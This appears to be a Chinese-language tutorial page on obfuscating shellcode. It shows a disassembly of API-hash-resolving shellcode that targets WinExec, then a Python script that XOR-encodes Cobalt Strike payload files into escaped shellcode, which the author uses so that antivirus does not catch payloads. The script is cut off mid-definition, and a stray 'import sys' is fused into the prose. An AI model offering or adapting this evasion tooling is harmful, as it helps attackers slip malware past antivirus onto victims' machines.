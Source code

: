 ```
00406059    01EF            add edi,ebp                              ; kernel32.WinExec
0040605B    8B7C8F FC       mov edi,dword ptr ds:[edi+ecx*4-0x4]
0040605F    01EF            add edi,ebp                              ; kernel32.WinExec
00406061    31C0            xor eax,eax
00406063    99              cdq
00406064    0217            add dl,byte ptr ds:[edi]
00406066    C1CA 04         ror edx,0x4
00406069    AE              scas byte ptr es:[edi]
0040606A  ^ 75 F8           jnz short shellcod.00406064
0040606C    3B5424 04       cmp edx,dword ptr ss:[esp+0x4]
00406070  ^ E0 E4           loopdne short shellcod.00406056
00406072  ^ 75 CA           jnz short shellcod.0040603E
00406074    8B53 24         mov edx,dword ptr ds:[ebx+0x24]
00406077    01EA            add edx,ebp                              ; kernel32.WinExec
00406079    0FB7144A        movzx edx,word ptr ds:[edx+ecx*2]
0040607D    8B7B 1C         mov edi,dword ptr ds:[ebx+0x1C]
00406080    01EF            add edi,ebp                              ; kernel32.WinExec
00406082    032C97          add ebp,dword ptr ds:[edi+edx*4]
00406085    C3              retn


```

## Shellcode 高级混淆原理（三）

由于反病毒软件对于默认生成的文件查杀较为严格，我通常会采用混淆、加密解密的方式把载荷还原。import sys

```
import sys
from argparse import ArgumentParser, FileType

def process_bin(num, src_fp, dst_fp, dst_raw):
    shellcode = ''
    shellcode_size = 0
    shellcode_raw = b''
    try:
        while True:
            code = src_fp.read(1)
            if not code:
                break

            base10 = ord(code) ^ num
            base10_str = chr(base10)
            shellcode_raw += base10_str.encode()
            code_hex = hex(base10)
            code_hex = code_hex.replace('0x','')
            if(len(code_hex) == 1):
                code_hex = '0' + code_hex
            shellcode += '\\x' + code_hex
            shellcode_size += 1
        src_fp.close()
        dst_raw.write(shellcode_raw)
        dst_raw.close()
        dst_fp.write(shellcode)
        dst_fp.close()
        return shellcode_size
    except Exception as e:
        sys.stderr.writelines(str(e))

def main():
    parser = ArgumentParser(prog='Shellcode X', description='[XOR The Cobaltstrike PAYLOAD.BINs] \t > Author: rvn0xsy@gmail.com')
    parser.add_argument('-v','--version',nargs='?')
```